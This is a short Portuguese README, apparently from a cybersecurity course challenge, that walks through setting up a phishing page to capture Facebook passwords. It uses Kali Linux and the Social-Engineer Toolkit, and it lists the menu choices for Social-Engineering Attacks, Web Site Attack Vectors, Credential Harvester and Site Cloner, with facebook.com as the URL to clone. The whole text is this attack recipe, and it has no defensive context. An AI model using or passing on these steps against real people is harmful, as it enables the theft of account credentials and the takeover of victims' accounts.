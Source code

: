 # desafio-cibersecurity-phishing

# Phishing para captura de senhas do Facebook

### Ferramentas qu vamos utilizar!

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root:
 ```bash
  sudo su
   ```
- Iniciando o setoolkit:
 ```bash
  setoolkit
   ```
- Tipo de ataque:
 ``` bash
 Social-Engineering Attacks
  ```
- Vetor de ataque: 
```bash
 Web Site Attack Vectors
  ```
- Método de ataque:
 ```bash
 Credential Harvester Attack Method
  ```
- Método de ataque:
 ```bash
  Site Cloner
   ```
- Obtendo o endereço da máquina: 
```bash
 ifconfig 
 ```
- URL para clone: http://www.facebook.com

